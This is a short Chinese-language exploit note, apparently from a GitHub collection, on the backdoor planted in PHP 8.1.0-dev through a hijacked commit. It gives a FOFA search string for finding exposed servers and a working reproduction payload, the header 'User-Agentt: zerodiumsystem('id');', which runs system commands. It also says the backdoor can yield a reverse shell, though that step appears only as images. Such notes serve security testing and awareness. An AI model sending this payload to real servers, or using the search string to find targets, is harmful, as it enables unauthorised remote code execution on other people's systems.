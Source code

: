 # PHP zerodium后门漏洞

## 漏洞描述

PHP开发工程师Jake Birchall在对其中一个恶意COMMIT的分析过程中发现，在代码中注入的后门是来自一个PHP代码被劫持的网站上，并且采用了远程代码执行的操作，并且攻击者盗用了PHP开发人员的名义来提交此COMMIT。

目前为止PHP官方并未就该事件进行更多披露，表示此次服务器被黑的具体细节仍在调查当中。由于此事件的影响，PHP的官方代码库已经被维护人员迁移至GitHub平台，之后的相关代码更新、修改将会都在GitHub上进行。

## 漏洞影响

```
PHP 8.1.0-dev
```

## FOFA

```
"PHP/8.1.0-dev"
```

## 漏洞复现

后门为添加请求头

```plain
User-Agentt: zerodiumsystem('id');
```

- 是 User-Agentt 不是 User-Agent



![](./images/202202091309632.png)

反弹shell

![](./images/202202091310034.png)